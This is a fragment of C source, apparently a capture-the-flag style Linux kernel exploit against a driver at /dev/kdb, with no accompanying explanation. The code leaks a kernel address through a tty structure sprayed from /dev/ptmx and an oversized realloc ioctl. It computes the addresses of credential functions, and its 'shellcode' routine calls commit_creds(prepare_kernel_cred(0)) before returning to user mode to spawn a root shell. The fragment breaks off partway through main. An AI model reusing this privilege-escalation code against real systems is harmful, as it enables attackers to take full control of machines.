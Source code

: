 ```cpp
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags)
        :
        : "memory");
}


static void shellcode()
{
    
    commit_creds(prepare_kernel_cred(0));
    asm(
        "swapgs\n"
        "movq %0,%%rax\n"    // push things into stack for iretq
        "pushq %%rax\n"
        "movq %1,%%rax\n"
        "pushq %%rax\n"
        "movq %2,%%rax\n"
        "pushq %%rax\n"
        "movq %3,%%rax\n"
        "pushq %%rax\n"
        "movq %4,%%rax\n"
        "pushq %%rax\n"
        "iretq\n"
        :
        :"r"(user_ss),"r"(base+0x500),"r"(user_rflags),"r"(user_cs),"r"(get_shell)
        :"memory"
    );
}
int main()
{
    
    struct Chunk* p1;
    struct Chunk2* p2;
    unsigned long *ptr;
    p1=&ch1;
    p2=&ch2;
    p2->buf=buf;
    int fd,devfd;
    char *fake_file_operations = (char*) calloc(0x1000, 1); // big enough to be file_operations
    struct tty_operations *fake_tty_operations = (struct tty_operations *) malloc(sizeof(struct tty_operations));
    memset(fake_tty_operations, 0, sizeof(struct tty_operations));
    fd=open("/dev/kdb",O_RDWR);
    memset(ch1.name,0,0x20);
    memset(ch2.name,0,0x20);
    memset(buf,0,0x1000);
    strcpy(p1->name,"aaa\n");
    p1->size=0x2e0;
    ioctl(fd,COMMAD_ALLOC,p1);
    strcpy(p2->name,"aaa\n");
    p2->size=0xFFFFFFFFFFFFF;
    p2->buf=buf;
    ioctl(fd,COMMAD_RALLO,p2);
    devfd=open("/dev/ptmx",O_RDWR|O_NOCTTY);   // Occupy the tty structure
    p2->size=0x30;
    ioctl(fd,COMMAD_READ,p2);
    ptr=buf+24;
    membase=*ptr;   //leak kernel address

    unsigned long pre_static=0xffffffff8103d1a0;
    prepare_kernel_cred=membase-0xffffffff81c1bea0+0xffffffff81a3d1a0;
    commit_creds=prepare_kernel_cred-0x1a0+0x3a0; 
```